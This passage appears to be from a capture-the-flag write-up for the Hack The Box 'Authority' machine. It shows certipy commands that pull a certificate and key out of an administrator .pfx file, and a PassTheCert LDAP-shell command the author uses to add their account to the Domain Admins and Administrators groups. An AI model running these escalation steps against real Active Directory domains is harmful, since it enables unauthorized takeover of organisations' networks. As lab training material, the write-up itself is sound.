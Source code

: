 SmartCard Login is now enabled which is PKIINIT is disabled so we cant login right away.

So I referred to this article here.

[https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html)

### Pass The Cert

Now using the impacket’s passthecert.py to add our machine account to the domain admins group.

Lets just extract the key and cert from our administrator.pfx file.

```bash
certipy cert -pfx administrator.pfx -nokey -out administrator.crt
certipy cert -pfx administrator.pfx -nocert -out administrator.key
```

Lets add our machine account to the domain admins group.

![image.png](/assets/images/Authority_HTB/image%2023.png)

```bash
/opt/PassTheCert/Python/passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.129.229.56
```

![image.png](/assets/images/Authority_HTB/image%2024.png)

Using the ldap shell we have added ourselves to the domain admin and Administrators group.

Also now we generate a TGT.

![image.png](/assets/images/Authority_HTB/image%2025.png)
